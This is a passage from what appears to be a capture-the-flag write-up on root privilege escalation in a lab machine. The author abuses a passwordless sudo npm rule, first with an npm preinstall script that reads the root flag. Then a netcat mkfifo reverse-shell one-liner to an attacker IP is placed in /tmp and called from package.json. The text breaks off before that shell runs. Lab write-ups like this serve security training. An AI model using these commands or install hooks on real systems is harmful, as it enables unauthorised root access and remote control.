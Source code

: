 Now look for our path to privilege escalation, first thing I usually check is sudo and SUID:

```text
algernon@holiday:~/app$ sudo -l
Matching Defaults entries for algernon on holiday:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User algernon may run the following commands on holiday:
    (ALL) NOPASSWD: /usr/bin/npm i *
```

Straight away we look to have found it. Anyone can run npm with no password as root, and there's a well known method to run scripts as part of an npm install.

Sort the files out first:

```text
algernon@holiday:~/app$ ls
hex.db    layouts       package.json  shell   views
index.js  node_modules  setup         static
algernon@holiday:~/app$ mv package.json package.json.bak
algernon@holiday:~/app$ vi package.json
algernon@holiday:~/app$ cat package.json
{
  "scripts": { "preinstall": "cat /root/root.txt" }
}
```

Now run npm install to get our script to run:

```text
algernon@holiday:~/app$ sudo /usr/bin/npm i --unsafe-perm
> undefined preinstall /home/algernon/app
> cat /root/root.txt
<<HIDDEN>>
```

## Root Shell

Bonus extra, getting a root shell, create file in /tmp:

```text
algernon@holiday:/tmp$ cat shell
#!/bin/bash
   /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.35 1235 >/tmp/f
```

Edit package file to call our shell script:

```text
algernon@holiday:~/app$ cat package.json
{
  "scripts": { "preinstall": "bash /tmp/shell" }
}
```

Run the install again:
